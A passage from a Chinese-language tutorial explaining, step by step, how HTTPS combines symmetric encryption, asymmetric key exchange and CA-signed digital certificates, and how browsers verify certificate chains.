**第二版：使用非对称加密**

不过非对称加密能够解决这个问题，因此接下来我们就利用非对称加密来实现我们第二版的 HTTPS，不过在讨论具体的实现之前，我们先看看什么是非对称加密。

和对称加密只有一个密钥不同，非对称加密算法有 A、B 两把密钥，如果你用 A 密钥来加密，那么只能使用 B 密钥来解密；反过来，如果你要 B 密钥来加密，那么只能用 A 密钥来解密。

在 HTTPS 中，服务器会将其中的一个密钥通过明文的形式发送给浏览器，我们把这个密钥称为公钥，服务器自己留下的那个密钥称为私钥。顾名思义，公钥是每个人都能获取到的，而私钥只有服务器才能知道，不对任何人公开。下图是使用非对称加密改造的 HTTPS 协议：

<br/>

<br/>

根据该图，我们来分析下使用非对称加密的请求流程。

- 首先浏览器还是发送加密套件列表给服务器。
- 然后服务器会选择一个加密套件，不过和对称加密不同的是，使用非对称加密时服务器上需要有用于浏览器加密的公钥和服务器解密 HTTP 数据的私钥，由于公钥是给浏览器加密使用的，因此服务器会将加密套件和公钥一道发送给浏览器。
- 最后就是浏览器和服务器返回确认消息。

这样浏览器端就有了服务器的公钥，在浏览器端向服务器端发送数据时，就可以使用该公钥来加密数据。由于公钥加密的数据只有私钥才能解密，所以即便黑客截获了数据和公钥，他也是无法使用公钥来解密数据的。

因此采用非对称加密，就能保证浏览器发送给服务器的数据是安全的了，这看上去似乎很完美，不过这种方式依然存在两个严重的问题。

- 第一个是非对称加密的效率太低。这会严重影响到加解密数据的速度，进而影响到用户打开页面的速度。
- 第二个是无法保证服务器发送给浏览器的数据安全。虽然浏览器端可以使用公钥来加密，但是服务器端只能采用私钥来加密，私钥加密只有公钥能解密，但黑客也是可以获取得到公钥的，这样就不能保证服务器端数据的安全了。

**第三版：对称加密和非对称加密搭配使用**

基于以上两点原因，我们最终选择了一个更加完美的方案，那就是在传输数据阶段依然使用对称加密，但是对称加密的密钥我们采用非对称加密来传输。下图就是改造后的版本：

<br/>

<br/>

从图中可以看出，改造后的流程是这样的：

- 首先浏览器向服务器发送对称加密套件列表、非对称加密套件列表和随机数 client-random；
- 服务器保存随机数 client-random，选择对称加密和非对称加密的套件，然后生成随机数 service-random，向浏览器发送选择的加密套件、service-random 和公钥；
- 浏览器保存公钥，并利用 client-random 和 service-random 计算出来 pre-master，然后利用公钥对 pre-master 加密，并向服务器发送加密后的数据；
- 最后服务器拿出自己的私钥，解密出 pre-master 数据，并返回确认消息。

到此为止，服务器和浏览器就有了共同的 client-random、service-random 和 pre-master，然后服务器和浏览器会使用这三组随机数生成对称密钥，因为服务器和浏览器使用同一套方法来生成密钥，所以最终生成的密钥也是相同的。

有了对称加密的密钥之后，双方就可以使用对称加密的方式来传输数据了。

需要特别注意的一点，pre-master 是经过公钥加密之后传输的，所以黑客无法获取到 pre-master，这样黑客就无法生成密钥，也就保证了黑客无法破解传输过程中的数据了。

**第四版：添加数字证书**

通过对称和非对称混合方式，我们完美地实现了数据的加密传输。不过这种方式依然存在着问题，比如我要打开极客时间的官网，但是黑客通过 DNS 劫持将极客时间官网的 IP 地址替换成了黑客的 IP 地址，这样我访问的其实是黑客的服务器了，黑客就可以在自己的服务器上实现公钥和私钥，而对浏览器来说，它完全不知道现在访问的是个黑客的站点。

所以我们还需要服务器向浏览器提供证明“我就是我”，那怎么证明呢？

这里我们结合实际生活中的一个例子，比如你要买房子，首先你需要给房管局提交你买房的材料，包括银行流水、银行证明、身份证等，然后房管局工作人员在验证无误后，会发给你一本盖了章的房产证，房产证上包含了你的名字、身份证号、房产地址、实际面积、公摊面积等信息。

在这个例子中，你之所以能证明房子是你自己的，是因为引进了房管局这个权威机构，并通过这个权威机构给你颁发一个证书：房产证。

同理，极客时间要证明这个服务器就是极客时间的，也需要使用权威机构颁发的证书，这个权威机构称为CA（Certificate Authority），颁发的证书就称为数字证书（Digital Certificate)。

对于浏览器来说，数字证书有两个作用：一个是通过数字证书向浏览器证明服务器的身份，另一个是数字证书里面包含了服务器公钥。

接下来我们看看含有数字证书的 HTTPS 的请求流程，你可以参考下图：

<br/>

<br/>

相较于第三版的 HTTPS 协议，这里主要有两点改变：

- 服务器没有直接返回公钥给浏览器，而是返回了数字证书，而公钥正是包含在数字证书中的；
- 在浏览器端多了一个证书验证的操作，验证了证书之后，才继续后续流程。

通过引入数字证书，我们就实现了服务器的身份认证功能，这样即便黑客伪造了服务器，但是由于证书是没有办法伪造的，所以依然无法欺骗用户。

**数字证书的申请和验证**

通过上面四个版本的迭代，我们实现了目前的 HTTPS 架构。

在第四版的 HTTPS 中，我们提到过，有了数字证书，黑客就无法欺骗用户了，不过我们并没有解释清楚如何通过数字证书来证明用户身份，所以接下来我们再来把这个问题解释清楚。

**如何申请数字证书**

我们先来看看如何向 CA 申请证书。比如极客时间需要向某个 CA 去申请数字证书，通常的申请流程分以下几步：

- 首先极客时间需要准备一套私钥和公钥，私钥留着自己使用；
- 然后极客时间向 CA 机构提交公钥、公司、站点等信息并等待认证，这个认证过程可能是收费的；
- CA 通过线上、线下等多种渠道来验证极客时间所提供信息的真实性，如公司是否存在、企业是否合法、域名是否归属该企业等；
- 如信息审核通过，CA 会向极客时间签发认证的数字证书，包含了极客时间的公钥、组织信息、CA 的信息、有效时间、证书序列号等，这些信息都是明文的，同时包含一个 CA 生成的签名。

这样我们就完成了极客时间数字证书的申请过程。前面几步都很好理解，不过最后一步数字签名的过程还需要解释下：首先 CA 使用Hash 函数来计算极客时间提交的明文信息，并得出信息摘要；然后 CA 再使用它的私钥对信息摘要进行加密，加密后的密文就是 CA 颁给极客时间的数字签名。这就相当于房管局在房产证上盖的章，这个章是可以去验证的，同样我们也可以通过数字签名来验证是否是该 CA 颁发的。

**浏览器如何验证数字证书**

有了 CA 签名过的数字证书，当浏览器向极客时间服务器发出请求时，服务器会返回数字证书给浏览器。

浏览器接收到数字证书之后，会对数字证书进行验证。首先浏览器读取证书中相关的明文信息，采用 CA 签名时相同的 Hash 函数来计算并得到信息摘要 A；然后再利用对应 CA 的公钥解密签名数据，得到信息摘要 B；对比信息摘要 A 和信息摘要 B，如果一致，则可以确认证书是合法的，即证明了这个服务器是极客时间的；同时浏览器还会验证证书相关的域名信息、有效时间等信息。

这时候相当于验证了 CA 是谁，但是这个 CA 可能比较小众，浏览器不知道该不该信任它，然后浏览器会继续查找给这个 CA 颁发证书的 CA，再以同样的方式验证它上级 CA 的可靠性。通常情况下，操作系统中会内置信任的顶级 CA 的证书信息（包含公钥），如果这个 CA 链中没有找到浏览器内置的顶级的 CA，证书也会被判定非法。

另外，在申请和使用证书的过程中，还需要注意以下三点：

- 申请数字证书是不需要提供私钥的，要确保私钥永远只能由服务器掌握；
- 数字证书最核心的是 CA 使用它的私钥生成的数字签名；
- 内置 CA 对应的证书称为根证书，根证书是最权威的机构，它们自己为自己签名，我们把这称为自签名证书。

**总结**

好了，今天就介绍到这里，下面我来总结下本文的主要内容。

由于 HTTP 的明文传输特性，在传输过程中的每一个环节，数据都有可能被窃取或者篡改，这倒逼着我们需要引入加密机制。于是我们在 HTTP 协议栈的 TCP 和 HTTP 层之间插入了一个安全层，负责数据的加密和解密操作。

我们使用对称加密实现了安全层，但是由于对称加密的密钥需要明文传输，所以我们又将对称加密改造成了非对称加密。但是非对称加密效率低且不能加密服务器到浏览器端的数据，于是我们又继续改在安全层，采用对称加密的方式加密传输数据和非对称加密的方式来传输密钥，这样我们就解决传输效率和两端数据安全传输的问题。

采用这种方式虽然能保证数据的安全传输，但是依然没办法证明服务器是可靠的，于是又引入了数字证书，数字证书是由 CA 签名过的，所以浏览器能够验证该证书的可靠性。
